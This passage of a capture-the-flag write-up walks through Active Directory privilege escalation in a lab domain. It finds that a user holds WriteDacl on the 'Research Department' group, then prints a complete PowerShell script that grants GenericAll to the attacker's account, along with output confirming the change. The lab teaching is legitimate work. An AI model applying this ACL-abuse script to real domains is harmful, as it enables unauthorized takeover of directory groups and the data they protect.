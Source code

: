 ## The Research Dep.
We can try to query the other group that could be considered interesting, **Research Department**, given the fact that we have to access a research document.  

```
$ADSI = [ADSI]"LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])
```

In the output we get this:

```
ActiveDirectoryRights : WriteDacl
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : ELFU\remote_elf
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None
```
Seems like the user "**remote_elf**" has the **WriteDacl** permission, which allows us to add/remove permissions for other users for this group. We can now proceed to use the second script provided to us to by Chris Davis.
```{note}
This script adds the **GenericAll** permission to a user of our choice. We should add it to the user generated by us.
```
```Powershell
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "YOUR_USERNAME_HERE"
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$IdentityReference = (New-Object System.Security.Principal.NTAccount("elfu.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```
We can check if our action is successful with the commands we used before.

*(iqulelyrfv is my username)*
```
$ADSI = [ADSI]"LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])

ActiveDirectoryRights : GenericAll
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : ELFU\iqulelyrfv
IsInherited           : False
InheritanceFlags      : None
```
